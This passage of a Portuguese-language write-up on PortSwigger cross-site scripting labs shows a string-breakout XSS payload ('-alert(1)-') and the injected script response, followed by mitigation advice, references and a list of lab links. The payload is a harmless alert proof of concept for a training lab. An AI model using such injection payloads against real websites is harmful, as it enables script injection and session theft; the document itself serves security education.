Para bypassar essa proteção podemos usar `'-alert(1)-'` como input, pois o as aspas simples utilizadas quebrarão a string e o payload será executado.

<div class="page"/>

Ao enviar esse payload para o campo de busca, o XSS é executado.



Onde a resposta da requisição ficará assim:

```html

    <script>
        var searchTerms = ''-alert(1)-'';
        document.write('');
    </script>

```

E o laboratório é concluído.



---

<div class="page"/>

## **<a id="7">• Mitigação.</a>**

**Existem várias formas de mitigar uma vulnerabilidade de Cross-site Scripting (XSS), algumas das quais incluem:**

- ### **Lado do Desenvolvedor.**

  - **Validação de entrada:** Os desenvolvedores devem validar cuidadosamente todas as entradas de dados do usuário para garantir que elas não contenham scripts maliciosos. Isso pode incluir a remoção de caracteres especiais ou a verificação de entradas contra uma lista de caracteres permitidos.

  - **Codificação de saída:** Os desenvolvedores devem codificar cuidadosamente todas as saídas de dados para garantir que elas não contenham scripts maliciosos. Isso pode incluir a codificação de caracteres especiais ou a verificação de saídas contra uma lista de caracteres permitidos.

  - **Uso de políticas de segurança de conteúdo (CSP):** As políticas de segurança de conteúdo (CSP) são mecanismos de segurança que permitem aos desenvolvedores controlar de onde os scripts podem ser carregados em uma página web. Isso ajuda a impedir que scripts maliciosos sejam carregados a partir de fontes não confiáveis.

  - **Utilizar sanitizers:** Utilizar sanitizers é uma forma de limpar ou remover qualquer código malicioso presente nos inputs de formulários ou parâmetros da URL.

  - **Utilizar o HTTP-Only e Secure Flags em Cookies:** Isso impede que scripts acessem dados de cookies e impede que os cookies sejam transmitidos em conexões não-seguras.

  - **Utilizar ferramentas de segurança** como o OWASP ZAP ou o Burp Suite para testar seu aplicativo e identificar vulnerabilidades de XSS.

- ### **Lado do Usuário.**

  - **Utilizar um navegador web atualizado:** os navegadores web mais recentes geralmente têm medidas de segurança embutidas para proteger contra XSS, então é importante manter seu navegador atualizado.

  - **Utilizar extensões de segurança:** Existem extensões de navegador como o NoScript ou o RequestPolicy que podem ajudar a bloquear scripts maliciosos e outros conteúdos perigosos.

  - **Evitar clicar em links suspeitos:** Se um link parece suspeito ou estranho, é melhor evitá-lo.

  - **Não fornecer informações pessoais sensíveis:** É importante ser cuidadoso ao fornecer informações pessoais sensíveis em sites, especialmente em sites não confiáveis.

  - **Utilizar a autenticação de dois fatores:** A autenticação de dois fatores adiciona uma camada extra de segurança, impedindo que alguém acesse sua conta com apenas sua senha.

---

<div class="page"/>

## **<a id="8">• Dificuldades.</a>**

*Nenhuma dificuldade relevante. =}*

---

## **<a id="9">• Conclusão.</a>**

Em conclusão, o **Cross-Site Scripting (XSS)** é uma das vulnerabilidades de segurança mais comuns e perigosas na web atualmente. Ele permite que os invasores injetem códigos maliciosos nas páginas web visitadas pelos usuários, permitindo acesso não autorizado a informações confidenciais, roubo de sessões e até mesmo o controle de contas.

Em geral, é importante estar sempre atento e atualizado com as melhores práticas de segurança para garantir a proteção contra XSS e outras vulnerabilidades similares.
A implementação dessas medidas de segurança corretamente pode ajudar a proteger tanto desenvolvedores quanto usuários contra ataques de XSS e garantir a segurança das informações.

---

## **<a id="10">• Referências.</a>**

- [Kaspersky - O que é um ataque de cross-site scripting? Definição e explicação](https://www.kaspersky.com.br/resource-center/definitions/what-is-a-cross-site-scripting-attack)

- [Owasp - Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)

- [Portswigger - Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)

- [ChatGPT](https://chat.openai.com/chat)


---

## **<a id="11">• Laboratórios.</a>**

  1. [Reflected XSS into HTML context with nothing encoded.](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)
   
  2. [Stored XSS into HTML context with nothing encoded.](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)
  
  3. [Reflected XSS into HTML context with most tags and attributes blocked.](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)
  
  4. [Stored XSS into anchor href attribute with double quotes HTML-encoded.](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded)
  
  5. [Reflected XSS into a JavaScript string with single quote and backslash escaped.](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped)
  
  6. [Reflected XSS into a JavaScript string with angle brackets HTML encoded.](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)
